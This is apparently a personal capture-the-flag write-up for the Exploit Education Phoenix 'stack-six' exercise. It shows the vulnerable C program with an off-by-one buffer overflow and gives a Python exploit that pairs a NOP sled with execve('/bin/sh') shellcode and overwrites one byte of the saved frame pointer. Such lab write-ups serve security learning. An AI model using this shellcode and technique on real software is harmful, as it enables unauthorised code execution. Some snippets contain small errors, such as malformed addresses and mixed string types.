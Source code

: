 Source

```c
/*
 * phoenix/stack-six, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * Why do fungi have to pay double bus fares? Because they take up too
 * mushroom.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *what = GREET;

char *greet(char *who) {
  char buffer[128];
  int maxSize;

  maxSize = strlen(who);
  if (maxSize > (sizeof(buffer) - /* ensure null termination */ 1)) {
    maxSize = sizeof(buffer) - 1;
  }

  strcpy(buffer, what);
  strncpy(buffer + strlen(buffer), who, maxSize);

  return strdup(buffer);
}

int main(int argc, char **argv) {
  char *ptr;
  printf("%s\n", BANNER);

#ifdef NEWARCH
  if (argv[1]) {
    what = argv[1];
  }
#endif

  ptr = getenv("ExploitEducation");
  if (NULL == ptr) {
    // This style of comparison prevents issues where you may accidentally
    // type if(ptr = NULL) {}..

    errx(1, "Please specify an environment variable called ExploitEducation");
  }

  printf("%s\n", greet(ptr));
  return 0;
}
```

# Solution

We can fill up the buffer and overflow a single byte after the `strdup`

![](_attachments/Pasted%20image%2020230402100358.png)

![](_attachments/Pasted%20image%2020230402100321.png)

Perhaps we can manipulate this overflow to point back to the address of our environment variable

To find that, I used the following steps:

![](_attachments/Pasted%20image%2020230402105904.png)

I had to add 0x10 to the address, to skip the `ExploitEducation=` prefix, which leaves us with the address:
`0x0x7fffffffef10`

Because we can manipulate the last byte of the "buffer"/return address, lets check if our code is somwhere within this range `0x0x7fffffffe500 - 0x0x7fffffffe5ff`:
![](_attachments/Pasted%20image%2020230402105729.png)


![](_attachments/Pasted%20image%2020230402112141.png)

So when we return, we need to see if we can manipulate the address to be 0x00007fffffffe510. This will jump to our shellcode, probably should include a couple of nop's to make it line up correctly and then some real shellcode. 

You can see if we changed to value of RBP to `0x..a0`, itll jump to our shellcode.

Lets mod the shellcode to be `\x90 * 126 + \x10`

```python
from pwn import *

buf = b"\x90" * 126 + "\xa0"

print(buf)
```

![](_attachments/Pasted%20image%2020230402110541.png)
When we now break at main, we can see RBP is now pointing to our shellcode.
Lets change up the shellcode to be a real one..

```python
from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

# build the payload - with a small nop sled
payload = b"\x90" * 20
payload += shellcode
payload += b"A" * (126 - len(payload))
# overwrite RIP byte
payload += b"\xa0"

print(payload)
```

So now when we run the program, it jumps into our shellcode

![](_attachments/Pasted%20image%2020230402112619.png)